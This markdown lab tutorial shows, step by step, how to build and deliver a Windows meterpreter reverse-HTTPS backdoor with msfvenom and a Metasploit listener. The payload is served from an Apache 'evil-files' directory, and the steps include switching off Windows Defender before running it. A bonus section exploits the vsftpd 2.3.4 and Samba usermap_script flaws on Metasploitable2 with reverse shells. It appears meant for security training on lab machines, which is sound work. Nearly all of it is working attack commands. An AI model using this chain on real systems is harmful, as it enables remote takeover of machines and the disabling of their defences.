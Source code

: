 

##  PART 1: Creating a Backdoor with msfvenom

### Step 1: Understand the Tool
```bash
msfvenom --help
```

### Step 2: List Available Payloads
```bash
msfvenom --list payloads
```

Example payload:
```
windows/x64/meterpreter_reverse_https
```

### Step 3: Check Payload Options
```bash
msfvenom -p windows/x64/meterpreter_reverse_https --list-options
```

### Step 4: Generate the Backdoor Executable
```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.233.128 LPORT=8080 -f exe -o rev_https_8080.exe
```

### Explanation:
- `-p`: Payload
- `LHOST`: Kali (attacker) IP
- `LPORT`: Listening port
- `-f exe`: Format as Windows executable
- `-o`: Output filename

---

##  PART 2: Setting Up Listener in Metasploit

### Step 1: Launch Metasploit
```bash
msfconsole
```

### Step 2: Use Multi/Handler Module
```bash
use exploit/multi/handler
```

### Step 3: Set the Payload
```bash
set PAYLOAD windows/x64/meterpreter_reverse_https
```

### Step 4: Set Listener IP & Port
```bash
set LHOST 192.168.233.128
set LPORT 8080
```

### Step 5: Verify and Run
```bash
show options
exploit
```

> Metasploit will now wait for a connection from the target.

---

##  PART 3: Delivering the Backdoor to Windows VM

### Step 1: Move Backdoor to Apache Directory
```bash
mkdir /var/www/html/evil-files
cp rev_https_8080.exe /var/www/html/evil-files/
```

### Step 2: Start Apache Server
```bash
sudo service apache2 start
```

### Step 3: Download the Backdoor on Windows
- Open browser on Windows VM
- Navigate to: `http://192.168.233.128/evil-files/rev_https_8080.exe`

### Step 4: Disable Windows Defender
1. Search for "Virus & Threat Protection"
2. Click "Manage settings"
3. Turn OFF real-time protection, cloud protection, etc.

### Step 5: Execute the Backdoor
- Locate `.exe` in Downloads folder
- Double-click to execute

---

##  PART 4: Exploiting the Backdoor with Metasploit

Once the Windows machine executes the backdoor:

### Step 1: View Active Sessions
```bash
sessions
```

### Step 2: Interact with Session
```bash
sessions -i [session_number]
```

### Step 3: Run Meterpreter Commands
```bash
sysinfo
getuid
shell
```

---

##  BONUS: Exploiting Metasploitable2 Services

### Example 1: vsftpd 2.3.4 Backdoor
```bash
nmap -sV 192.168.75.135
```
Look for:
```
21/tcp open  vsftpd 2.3.4
```

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.75.135
exploit
```

### Example 2: Exploiting Samba (SMB)
```bash
use exploit/multi/samba/usermap_script
set RHOST 192.168.75.135
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.233.128
set LPORT 5555
exploit
```

---

##  Summary Table

| Tool/Service       | Purpose                          |
|--------------------|----------------------------------|
| msfvenom           | Create backdoor payload          |
| apache2            | Serve payload to victim          |
| multi/handler      | Receive reverse shell            |
| meterpreter        | Control compromised Windows host |
| nmap               | Scan and identify services       |
| Metasploitable2    | Test system with known vulns     |

---
